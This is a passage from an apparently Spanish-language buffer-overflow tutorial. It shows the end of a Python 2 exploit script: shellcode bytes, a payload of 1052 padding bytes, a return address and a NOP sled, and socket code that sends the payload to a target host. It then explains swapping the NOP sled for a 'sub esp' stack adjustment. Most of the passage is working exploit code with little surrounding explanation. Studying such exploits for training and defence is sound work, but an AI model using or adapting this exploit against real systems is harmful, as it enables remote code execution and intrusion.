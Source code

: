```python
shellcode += b"\x19\xaf\x10\x57\xfb\x80\x0e\x73\x48\x84\xb1\xb0\xb0"
shellcode += b"\x83\x67\x88\xb5\x1d\x0e\x73\xeb\xa1\xd1\xdc\xa2\xe9"
shellcode += b"\x76\xcc\xd0\x27\x6b\xed\x5d\xfc\x02\xcb\x8f\xff\xc3"
shellcode += b"\xb2\x8f\xf3\xee\x96\x9a\xec\xb1\x73\x55\x47\x82\x70"
shellcode += b"\x10\x32\x53\xbb\xfa\x83\x38\x3b\xb0\xea\xd1\xe4\x6e"
shellcode += b"\x2f\x7d\x23\xc5\xd9\x5d\xfb\x48\x06\x3d\x4f\x33\xfe"
shellcode += b"\x03\x9c"

if __name__ == "__main__":
    #buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode
    buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x90" * 16 + shellcode
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.send("%s\r\n" % buffer)
    except Exception as ex:
        print "[!] Ha habido un error de conexion"
        print ex
        sys.exit(1)
```

**Consideraciones**

Si bien se pueden utilizar algunos "trucos" para caer en la dirección donde se encuentra el shellcode como lo son los `NOPs (\x90)` se puede ocupar un desplazamiento de pila para restar posiciones, y jugar un poco con los valores. Dentro de `msf-nasm_shell` se puede invocar la instrucción `sub esp, <valor en hexadecimal>`. Ejemplo:

![OP code de sub](./images/bof_10.png)

En este caso se obtendría el valor `83EC10` como código de operación para el desplazamiento de 10 unidades. quedando la línea de construcción del payload como: `buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode` en lugar de los `NOPs`.